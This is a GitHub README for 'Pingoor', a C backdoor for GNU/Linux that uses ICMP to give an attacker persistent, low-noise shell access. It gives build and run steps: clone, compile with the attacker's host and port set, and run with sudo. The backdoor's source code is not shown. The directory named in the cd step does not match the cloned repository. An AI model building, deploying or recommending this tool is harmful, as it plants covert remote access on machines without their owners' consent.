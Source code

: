 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## Help

![](assets/help.png)


## Installation

```
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Farllen
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```
